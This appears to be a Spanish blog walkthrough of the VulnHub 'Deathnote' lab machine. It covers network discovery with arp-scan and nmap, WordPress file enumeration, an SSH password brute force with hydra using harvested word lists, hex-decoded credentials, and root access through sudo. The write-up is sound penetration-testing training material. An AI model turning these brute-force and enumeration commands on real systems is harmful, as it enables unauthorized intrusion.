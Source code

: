 ```yaml
---
layout: post
title: "Deathnote"
date: 2024-05-18 10:37:23
category: sample
vm: vulnhub
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnhub/vulnhub.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Deathnote </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong><a href="https://www.vulnhub.com/entry/deathnote-1,739/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnhub/Deathnote/host.png){:.margin}

**1\.** Pillamos la ip objetivo en la red.

`sudo arp-scan -l`

![img](/notas/public/img/vulnhub/Deathnote/arp.png){:.margin}

**2\.** Escaneo puertos y servicios abiertos.

`sudo nmap -p- --open -T5 -sS -sCV -Pn -n --min-rate=5000 192.168.1.60 -oN savescan`

![img](/notas/public/img/vulnhub/Deathnote/nmap.png){:.margin}

**3\.** Visito la web apache y me redirige a un dominio que no se puede resolver. 

`http://192.168.1.60`

![img](/notas/public/img/vulnhub/Deathnote/80.png)
![img](/notas/public/img/vulnhub/Deathnote/80redirect.png)

**4\.** Para solucionar este error añadimos el dominio en el hosts.

`nano /etc/hosts`

`192.168.1.60 deathnote.vuln`

![img](/notas/public/img/vulnhub/Deathnote/hosts.png){:.margin}

_\- Ya nos resuelve el dominio_

![img](/notas/public/img/vulnhub/Deathnote/redirectok.png){:.margin}

**5\.** Veo la pista(hint), pone que tenemos que encontrar un archivo.

`http://deathnote.vuln/wordpress/index.php/hint/`

![img](/notas/public/img/vulnhub/Deathnote/hint.png){:.margin}

**6\.** Mas abajo podemos ir al comentario de L.

![img](/notas/public/img/vulnhub/Deathnote/comment.png)
![img](/notas/public/img/vulnhub/Deathnote/commentredirect.png)

**7\.** Vemos el codigo fuente y filtramos por notes, lo tenemos.

![img](/notas/public/img/vulnhub/Deathnote/noteslink.png){:.margin}

**8\.** Voy al link pero no funciona.

`http://deathnote.vuln/wordpress/wp-content/uploads/notes.txt`

![img](/notas/public/img/vulnhub/Deathnote/notesfail.png){:.margin}

**9\.** Se me da por eliminar el nombre del archivo y tengo un directorio, busco el archivo.

`http://deathnote.vuln/wordpress/wp-content/uploads/`

![img](/notas/public/img/vulnhub/Deathnote/directory.png){:.margin}
![img](/notas/public/img/vulnhub/Deathnote/directory2.png){:.margin}
![img](/notas/public/img/vulnhub/Deathnote/directory3.png){:.margin}

**10\.** Reviso el contenido de cada archivo.

_10.1- En notes tenemos una lista de palabras_

`http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt`

![img](/notas/public/img/vulnhub/Deathnote/notessee.png){:.margin}

_10.2- En user tenemos otra lista_

![img](/notas/public/img/vulnhub/Deathnote/usersee.png){:.margin}

**11\.** Me descargo todo estos archivos de forma recursiva.

`wget -r --no-parent --reject "index.html*" -q http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/`

`ls`

![img](/notas/public/img/vulnhub/Deathnote/wget.png){:.margin}

**12\.** Revisando la carpeta  encuentro un fichero que me da una pista.

`cd deathnote.vuln`

`ls`

`cat robots.txt`

![img](/notas/public/img/vulnhub/Deathnote/robots.png){:.margin}

**13\.** Analizando la imagen.

_13.1- Voy a la imagen en la web_

`http://deathnote.vuln/important.jpg`

![img](/notas/public/img/vulnhub/Deathnote/important.png){:.margin}

_13.2- Veo la data en la imagen, me da mas detalles_

`curl http://deathnote.vuln/important.jpg`

![img](/notas/public/img/vulnhub/Deathnote/curl.png){:.margin}

_13.3- Otra opcion es descargar la imagen y leer la data_

`wget http://deathnote.vuln/important.jpg -q`

`cat important.jpg`

![img](/notas/public/img/vulnhub/Deathnote/cat.png){:.margin}

**14\.** Haciendo fuerza bruta al ssh.

_14.1- Me ubico donde los archivos notes y user_

`cd deathnote.vuln/wordpress/wp-content/uploads/2021/07`

`ls`

![img](/notas/public/img/vulnhub/Deathnote/cdfiles.png){:.margin}

_14.2- Hago fuerza bruta para tener las credenciales_

`hydra -L user.txt -P notes.txt ssh://192.168.1.60`

![img](/notas/public/img/vulnhub/Deathnote/hydra.png){:.margin}

_14.3- Accedo por ssh como usuario L_

`ssh l@192.168.1.60`

![img](/notas/public/img/vulnhub/Deathnote/sshl.png){:.margin}

**15\.** Despues de indagar mucho, encuentro una carpeta en opt. 

`cd /opt`

`ls`

`cd L`

`ls`

`find`

![img](/notas/public/img/vulnhub/Deathnote/diropt.png){:.margin}

**16\.** Viendo el contenido de los archivos.

_16.1- Leendo case-file.txt_

`cat Kira-case/case-file.txt`

![img](/notas/public/img/vulnhub/Deathnote/casefile.png){:.margin}

_16.2- Leendo case.wav y hint_

`cat fake-notebook-rule/case.wav`

`cat fake-notebook-rule/hint`

![img](/notas/public/img/vulnhub/Deathnote/wavhint.png){:.margin}

**17\.** Al parecer tenemos un texto en hexadecimal y nos dice que usemos [Cyberchef](https://gchq.github.io/CyberChef/).

_17.1- Pego el hex y por debajo me detecta para decodificar_

![img](/notas/public/img/vulnhub/Deathnote/cyberchef.png){:.margin}

_17.2- Hago click y me muestra el texto decodificado_

![img](/notas/public/img/vulnhub/Deathnote/outputpass.png){:.margin}

**18\.** Accedo por ssh como kira.

`ssh kira@192.168.1.60`

![img](/notas/public/img/vulnhub/Deathnote/sshkira.png){:.margin}

**19\.** Encuentro un archivo, sigo pasos anteriores con cyberchef.

_19.1- Leo el archivo_

`ls`

`cat Kira.txt`

![img](/notas/public/img/vulnhub/Deathnote/kiratxt.png){:.margin}

_19.2- Lo analizo con cyberchef_

![img](/notas/public/img/vulnhub/Deathnote/cyberchefkira.png){:.margin}

_\- Estos directorios ya los vimos, asi que no hace falta mas nada_

**20\.** Obteniendo superusuario.

_20.1- Veo mis permisos de sudo ingresando mi contraseña_

`sudo -l`

![img](/notas/public/img/vulnhub/Deathnote/sudol.png){:.margin}

_20.2- Ya que tengo permiso general, accedo como root_

![img](/notas/public/img/vulnhub/Deathnote/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>
